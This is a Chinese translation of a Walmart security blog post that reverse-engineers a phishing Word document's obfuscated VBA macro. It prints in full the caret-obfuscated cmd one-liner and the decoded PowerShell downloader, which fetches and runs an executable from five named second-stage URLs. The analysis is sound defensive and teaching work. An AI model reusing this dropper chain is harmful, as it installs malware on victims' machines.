




# 对混淆的恶意宏进行反向工程

> 原文：<https://medium.com/walmartglobaltech/reverse-engineering-an-obfuscated-malicious-macro-3fd4d4f9c439?source=collection_archive---------1----------------------->

一段时间以来，恶意的 Microsoft Office 文档一直是商业网络安全威胁行为者的主要目标。公司工作场所中办公室的普遍存在与网络钓鱼和鱼叉式网络钓鱼的有效性相结合，使得这种技术的攻击面相当大。识别和解构这些攻击让我们深入了解攻击能力以及有效的防御策略。

最近，我们的一位用户收到了一封电子邮件，其附件似乎不太正确。



Just mildly edited

幸运的是，它引起了我们的注意，我看了看有问题的附件。这是一个 Microsoft Word 文档，经过一番检查，很明显它包含了一个恶意的宏。这些宏是 Visual Basic for Applications (VBA)代码片段，用于在目标计算机上执行代码。当您打开包含宏的文档时，如果您单击 Word 中弹出的安全警告，就会触发这种攻击。


Please don’t

你没做过这个，对吧？…对吗？…当然 ***您*** 没有，但人们有，当网络钓鱼成功时，我们必须确定有效负载是什么，以便确定我们可能需要进行的任何定制补救工作。

通常，这些文档包含混淆的代码，以掩盖其真实目的，并使静态分析成为一个困难的过程。有多种工具和技术可以帮助您判断恶意文档的意图，从静态代码分析到在爆炸沙箱中的观察。为了让事情变得困难，并在这个过程中学习一两件事情，我手工对这个文档的有效负载进行了逆向工程，以确定它的功能。

## 获取宏源代码

我使用了令人敬畏的工具`olevba`，它是`[oletools](https://github.com/decalage2/oletools)`项目的一部分，允许你使用`python`直接从`*nix`系统上的恶意文件中查询 VBA 宏源代码。或者，您可以在 Word 或 LibreOffice 中手动打开宏，而不启用执行。我使用以下命令从恶意文档中提取流:

```
$ python2 oletools/olevba.py Invoice_No_2804552.doc -c
```

`-c`标志只给我们宏的源代码，没有任何进一步的分析

这不是我见过的最清晰的代码。所有这些混淆本身就可能是恶意意图的表现。现在我们要弄清楚它都做了什么。

## VBA NOP-fuscation

弄清楚这里实际发生了什么的第一步是删除空操作(`nop` s)。有相当数量的代码隐藏了实际的功能。在`VBA`中，根据上下文，未初始化的变量被视为空字符串或`null`。类似下面例子的代码会弹出`calc.exe`。

即使没有在任何地方定义`WsGQFM`，调用`Shell`上面的条件也不会出错，而是被解释为以下语句:

```
If null Or 2 Then
  tBFjh = "TI"
End If
```

这会将新变量`tBFjh`设置为字符串`“TI”`。包含所有这些片段只是为了使宏的静态分析更加混乱。包含的条件语句要么不执行，要么执行并将随机字符串赋给不再被引用的随机变量。下面是恶意源代码的简化版，没有那些`nops`:

仅识别这种技术就可以去除这种有效载荷中的大量噪声。现在，虽然还不完全清楚到底发生了什么，但我们已经有了一些眉目。在我看来，中间的两个函数`DTqpj`和`vNBMCjurWlv`包含了连接并返回的正常和反向字符串。底层函数`SjonJLuoL`似乎接受一个变量，并用这个值调用`Shell`。不过`AutoOpen`逻辑还是有点混乱。

```
Sub AutoOpen() 
 SjonJLuoL (KeyString(wwTLriZs + lfKnf + 10 + 7 + 50 + CdBUtfI + iNPLT) + LkwPL + qNIXIW + KeyString(BdpGivaC + ufzLc + 12 + 8 + 57 + tXzCjRS + KGlIA) + DTqpj + vNtBMCjurWl + fWWSlvV + azJobQRV) 
End Sub
```

这种混淆再次建立在`VBA`对未初始化变量的解释之上。这里唯一重要的部分是`KeyString`调用、整数和两个随机字符串，它们是代码中定义的函数(`DTqpj`和`vNtBMCjurWl`)。移除这些未定义的`nop`后，我们得到:

啊哈！所以我们的`AutoOpen`传递的值是:

```
KeyString(67) + KeyString(77) + DTqpj + vNtBMCjurWl
```

到我们的执行函数`SjonJLuoL`。那么，`KeyString`是做什么的？嗯根据微软的 Word VBA API [文档](https://docs.microsoft.com/en-us/office/vba/api/word.application.keystring)它

> 返回指定键的组合键字符串(例如，CTRL+SHIFT+A)。

所以基本上，它要把一个给定的字符代码翻译成它的字符串表示。在这种情况下，我们得到`C`和`M`。

我将剩余宏的函数和变量重命名为更准确的描述，如下所示:

现在我们已经有了相当多的结构，执行流程也很清晰。我们的`AutoOpen`用`concatenated payload`的值调用我们的`Execute`函数。然而我们不知道`QrQBzLuD`的目的是什么。它的值为`0`，并作为第二个参数与我们的命令字符串一起传递给`Shell`。我们再次求助于微软 Word VBA 文档。`Shell`呼叫定义如下:

```
Shell( *pathname*, [ *windowstyle* ] )
```

可选的`windowstyle`参数解释如下:

> 可选。**Variant**(**Integer**)对应于程序将要运行的窗口的样式。

查看选项，我们看到给定值`0`意味着

> vbHide 0 窗口被隐藏，焦点传递到隐藏的窗口

因此，我们的命令执行将在一个隐藏的窗口中执行，而不为那些无意中启用了宏的用户所知。我们最终的 VBA 有效载荷，完全去模糊，看起来是这样的:

## 命令行负载

现在我们已经到达了这个有效负载的本机 Windows shell 命令执行部分。

```
CMd /V^:^ON/C"^s^e^t lN=^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^}^}^{^hc^t^ac^}^;^k^a^er^b^;^ir^j^$^ ^m^etI^-^e^k^ovn^I;)^ir^j^$^ ^,^fB^J^$(^e^l^i^F^d^a^o^ln^wo^D^.^i^w^Y^$^{^yr^t^{)^B^Kj^$ n^i^ ^f^B^J^$(^hc^a^er^o^f;^'^e^x^e^.^'^+^U^t^L^$^+^'^\'+c^i^l^b^u^p^:vne^$^=^ir^j^$^;^'^4^9^3^'^ ^=^ ^U^t^L^$^;)^'^@^'(^t^i^l^p^S^.^'^Q/^ur^.^en^g^i^s^e^dn^a^l^.n^a^m^i^d^.^w^w^w//^:^p^t^t^h@yn/^t^i^.e^l^o^ic^s^iv^e^l^l^ed^on^i^dra^i^g^l^i//^:^p^t^t^h^@^g/^k^u.^oc^.^s^ec^ivr^e^s^k^e^p^sn^i//^:^p^t^t^h^[@C](http://twitter.com/C)/^m^oc^.^l^a^g^o^f^j//^:^p^t^t^h@^XC^s^U/^e^b^.^yn^a^j//^:^p^t^t^h^'^=^B^K^j^$^;^tn^e^i^lC^b^e^W^.^t^eN^ ^tc^e^j^b^o^-^w^en^=^i^w^Y^$^ ^l^l^e^h^sr^e^w^o^p&&^f^or /^L %^p ^in (^3^4^9^;^-^1^;^0)^d^o ^s^e^t ^l^I=!^l^I!!lN:~%^p,1!&&^i^f %^p ^e^q^u ^0 c^a^l^l %^l^I:^~^-^3^5^0%"
```

为了开始对这个有效载荷进行反混淆，我们做了一点研究。我有一种预感，脱字符是转义字符，不会影响它们穿插的明文。根据快速搜索，这一假设成立！

> ^符号(也称为插入符号或扬抑符号)是批处理脚本中的转义字符。当使用它时，下一个字符被解释为普通字符。

所以这是更多的混淆视听。我们可以安全地移除护板而不影响有效载荷。这里我们又有了有效载荷，更接近于明文:

```
CMd /V:ON/C”set lN= }}{hctac};kaerb;irj$ metI-ekovnI;)irj$ ,fBJ$(eliFdaolnwoD.iwY${yrt{)BKj$ ni fBJ$(hcaerof;’exe.’+UtL$+’\’+cilbup:vne$=irj$;’493' = UtL$;)’@’(tilpS.’Q/ur.engisednal.namid.www//:ptth@yn/ti.eloicsivelledonidraigli//:ptth@g/ku.oc.secivreskepsni//:ptth@C/moc.lagofj//:ptth@XCsU/eb.ynaj//:ptth’=BKj$;tneilCbeW.teN tcejbo-wen=iwY$ llehsrewop&&for /L %p in (349;-1;0)do set lI=!lI!!lN:~%p,1!&&if %p equ 0 call %lI:~-350%”
```

乍一看我们可以看到命令标志，一些变量被设置，混乱的 squiglys，和`llehsrewop`(字符串反转谁？).我把它分解成有效载荷的独立功能步骤，这样可读性会更好一些。

```
CMd /V:ON/Cset lN= }}{hctac};kaerb;irj$ metI-ekovnI;)irj$ ,fBJ$(eliFdaolnwoD.iwY${yrt{)BKj$ ni fBJ$(hcaerof;’exe.’+UtL$+’\’+cilbup:vne$=irj$;’493' = UtL$;)’@’(tilpS.’Q/ur.engisednal.namid.www//:ptth@yn/ti.eloicsivelledonidraigli//:ptth@g/ku.oc.secivreskepsni//:ptth@C/moc.lagofj//:ptth@XCsU/eb.ynaj//:ptth’=BKj$;tneilCbeW.teN tcejbo-wen=iwY$ llehsrewop&&for /L %p in (349;-1;0)
 do set lI=!lI!!lN:~%p,1! && 
 if %p equ 0 
 call %lI:~-350%
```

在这里，我们可以看到一些结构，允许我们将有效载荷逐行分解。

```
CMd /V:ON/C
```

为了理解这一点，我们来看看这两个标志的含义

> /V:ON Enable delayed environment variable expansion
> 这允许 FOR 循环指定！变量！而不是%variable%
> 在执行时而不是输入时扩展变量。
> 
> 如果指定了/C 或/K，那么命令行的剩余部分将作为新 shell 中的立即命令来处理。如果用引号括起来，则接受由命令分隔符' & '或' && '分隔的多个命令。

所以`/V:ON`标志允许我们在命令运行时执行动态变量赋值(字符串反转谁？)和`/C`标志允许我们将多步有效负载用引号括起来，并执行由`&`或`&&`分隔的每一步。酷毙了。让我们看看由`&&`界定的有效载荷的每一步。这是有效载荷的第一步:

```
set lN= }}{hctac};kaerb;irj$ metI-ekovnI;)irj$ ,fBJ$(eliFdaolnwoD.iwY${yrt{)BKj$ ni fBJ$(hcaerof;’exe.’+UtL$+’\’+cilbup:vne$=irj$;’493' = UtL$;)’@’(tilpS.’Q/ur.engisednal.namid.www//:ptth@yn/ti.eloicsivelledonidraigli//:ptth@g/ku.oc.secivreskepsni//:ptth@C/moc.lagofj//:ptth@XCsU/eb.ynaj//:ptth’=BKj$;tneilCbeW.teN tcejbo-wen=iwY$ llehsrewop
```

这将变量`lN`赋给这个看起来在`powershell`中并涉及一些 URL 的大反转字符串的值。

```
for /L %p in (349;-1;0)
```

> FOR /L —循环遍历一系列数字

这个`for`循环遍历整数 349 到 0，在每次迭代中后退。

```
do set lI =!lI!!lN:~%p,1!
```

对于不做任何批量编码的人来说，这一步看起来很混乱，但是如果你像这样把它分开一点，就容易多了:

```
do set lI = !lI! !lN:~%p,1!
```

这就是`/V:ON`标志派上用场的地方，因为它允许我们在每次到达该行时执行变量扩展，而不是只调用一次命令。

> 变量扩展意味着替换用% or！括起来的变量！根据它的价值。
> % normal %展开只发生一次，在一行被执行之前。这意味着,%variable% expansion 具有相同的值，不管该行是否被执行多次(就像在 for 命令中)。的！耽误了！每次执行该行时都会执行扩展。

在这一行中，`lI`被设置为`lI`的当前值加上位于索引`%p`处的`lN`的当前值的子串
，大小为 1 个字符。或者，更简单地说，用一个 pythonic 表达式:

```
for p in range(349, 0, -1):
  lI = lI + lN[p]
```

所以在这种情况下，`lI`将是正确格式化的字符串，我们将遍历`lN`并将其字符以相反的顺序放入`lI`。

```
if %p equ 0
  call %lI:~-350%
```

然后，如果我们已经完成了字符串的反转，我们调用新反转的字符串的最后 350 个字符`lI`作为 shell 命令。运行完循环后，变量`lI`将包含以下字符串:

```
powershell $Ywi=new-object Net.WebClient;$jKB=’http://jany.be/UsCX@http://jfogal.com/C@http://inspekservices.co.uk/g@http://ilgiardinodellevisciole.it/ny@http://www.diman.landesigne.ru/Q'.Split('@');$LtU = ‘394’;$jri=$env:public+’\’+$LtU+’.exe’;foreach($JBf in $jKB){try{$Ywi.DownloadFile($JBf, $jri);Invoke-Item $jri;break;}catch{}} 
```

然后被执行。

## `Powershell`有效载荷

现在你一定在想我此刻在想什么，那就是

> 我们说完了吗？？

答案是，是的，差不多。这是有效载荷的格式，看起来更好一些:

因此，我们循环通过用`@`分隔的 URIs，试图下载一个文件。
当我们从其中一个路径成功下载时，我们将下载内容写入`$env:public+’\’+$LtU+’.exe’`，执行它，并退出循环。这是最终的有效载荷，非常简单:

## 死后的

我们正式把它从可执行的胡言乱语变成了可屏蔽的第二阶段域名！虽然这很有趣，也是一次很好的学习经历，但这并不是获取这些信息的最佳方式。在逆转这一有效载荷的时间里，第二阶段的域名已经死亡。一个好的动态分析沙箱是解决这些问题的方法，因为它们可以为您提供宏内容以及执行的原始有效负载，有时还可以提供相关的第二阶段有效负载试探法。

鉴于我们知道该文档是恶意的，并且不包含任何敏感的公司信息，我们可以将该文档上传到 VirusTotal。VirusTotal 做了许多很酷的事情，包括通过一系列抗病毒检测引擎运行样本，并报告样本的静态数据，有时是启发式数据。在恶意文件的情况下，它还可以提取 VBA 宏流。请注意，在将文档上传到 VirusTotal 时，文档中的信息应被视为公共信息。所以在上传那些你没有在本地用`oletools`之类的工具手动分析过的涉嫌恶意的公司文件时要小心。

分割样本的病毒总数结果(`9d0e185ad2ed2ee4cd332294a17b534987b969c44931b49cdbcbfc329ea63f22`)可以在[这里](https://www.virustotal.com/#/file/9d0e185ad2ed2ee4cd332294a17b534987b969c44931b49cdbcbfc329ea63f22/detection)找到。在这一点上，它有很好的检测能力:



Definitely enable macros

此外，如果你进入 [**行为**](https://www.virustotal.com/#/file/9d0e185ad2ed2ee4cd332294a17b534987b969c44931b49cdbcbfc329ea63f22/behavior) 标签并选择腾讯的沙盒，它已经很好地捕获了系统上执行的命令



虽然在这个输出中命令被截断了，但是我们可以看到大多数的`powershell`命令和所有相关的域都被阻塞了。它还捕获了被放到磁盘上的`exe`



沙盒可以节省很多时间！我不相信这种沙盒分析是对上传到 VT 的每个样本进行的，但如果你愿意，你可以建立自己的恶意软件分析沙盒。[布谷鸟沙盒](https://cuckoosandbox.org/)是一个免费的开源入门方式。

我希望你喜欢这篇文章。如果你认为这很有趣，并想加入一个致力于建设和保护现代电子商务基础设施的团队，请查看我们的开放安全角色[这里](https://careers.walmart.com/results?q=security)！

```
 Spencer Dodd - Walmart Information Security
                         spencer.dodd@jet.com
                          [link to my github](https://github.com/spencerdodd)
```

## 感谢

*沃尔玛动态防御工程团队的 Harold Ogden，Jet Security、沃尔玛信息安全和 Jet 信息安全的 Eric Goldman*